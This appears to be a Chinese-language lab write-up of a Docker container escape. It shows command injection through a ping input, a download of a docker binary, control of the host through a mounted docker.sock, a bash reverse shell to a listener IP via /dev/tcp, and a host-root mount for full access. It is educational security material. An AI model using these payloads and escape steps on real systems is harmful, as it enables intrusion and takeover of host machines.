








# DIND (docker-in-docker) exploitation

## Story



## Exploitation

输入**127.0.0.1**，从回显中可以知道执行了`ping`命令。



使用`;`或者`&&`执行多行命令。



到这里，利用简单的命令执行的绕过，我们已经拿到了该docker的权限。

根据题干，我们可以知道这里存在docker逃逸，执行`;mount`命令查看挂载文件

原先的输出换行弄得不是很好，我们直接看源代码



可以发现挂载了**/custom/docker/docker.sock**，参考这篇[文章](https://blog.csdn.net/weixin_53090346/article/details/129708068#:~:text=造成逃逸的原因是,er中造成逃逸。)里面的**危险挂载Docker Socket逃逸**

> Docker采用的是C/S架构即客户端服务端格式，可以通过以下命令操作目标的docker。
> unix:///var/run/docker.sock
> tcp://host:port
> fd://socketfd
> 造成逃逸的原因是将宿主机的/var/run/docker.sock文件挂载到docker容器中，导致docker容器中可以操作宿主机的docker，进而能新创建docker从而将根目录挂载到新创建的docker中造成逃逸。

通过容器中挂载的**docker.sock**与宿主机的`docker`命令进行通信，从而控制宿主机的`docker`命令。

但是前提是我们需要一个可执行的二进制`docker`文件。

```
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz

;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

现在我们可以利用挂载的**docker.sock**与宿主机进行通信了

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```



可以看到，有很多的镜像，但是到这里还不算完，我们这里仅仅是获取宿主机`docker`命令的权限，我们的目标是获取宿主机的权限。

现在我们可以利用宿主机docker命令的权限去创建一个新容器，并让这个容器的目录挂载到宿主机的目录，从而通过写文件的方式去RCE。

下载一个centos镜像

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock pull centos
```



做到这里，我发现这样执行效率也太低了，索性弹个shell出来。

```
bash -c "bash -i >& /dev/tcp/192.168.215.133/2333 0>&1"
```

kali这边接收shell



运行容器挂载目录

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock run -v /:/hack -i centos:latest /bin/bash
```



这时候可以获取宿主机的文件权限了，我们这边可以做的事情很多，无论SSH免密登录还是写入计划任务都是可以的。


